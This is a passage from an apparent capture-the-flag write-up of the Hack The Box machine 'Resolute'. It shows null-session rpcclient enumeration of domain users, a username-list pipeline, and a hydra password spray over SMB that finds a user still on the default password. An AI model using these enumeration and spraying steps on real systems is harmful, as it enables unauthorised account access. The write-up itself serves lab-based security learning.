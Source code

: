 #### RPCClient
> tool for executing client side MS-RPC functions
Let's try with a null user session. We already get a lot of this enumerated in Enum4Linux, so the commands `enumdomusers`, `srvinfo`, and `querydispinfo` don't get us any more information than we already had. But, we can use the command `queryuser` to potentially find a user whose password has not been changed from Welcome123!. However, I'm feeling like being efficient/lazy so I'm instead going to copy all the users, process the text into a list of usernames, and then loop over the list trying to login with Evil-WinRM.

```shell
root@kali:~/HackTheBox/Resolute# rpcclient -U "" -N resolute.htb
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
```

## Exploitation
I copied the above output to `enumdomusers` into a file called pre.txt. Then ran the command `cat pre.txt | cut -d [ -f 2 | cut -d ] -f 1 > users.txt` to get a list of all users. I used hydra to find that user melanie still had the default password:

```shell
root@kali:~/HackTheBox/Resolute# hydra -L users.txt -p Welcome123! resolute.htb smb
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-20 22:20:46
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 27 login tries (l:27/p:1), ~27 tries per task
[DATA] attacking smb://resolute.htb:445/
[445][smb] host: resolute.htb   login: melanie   password: Welcome123!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-20 22:20:50
```
New credentials!
> melanie:Welcome123!

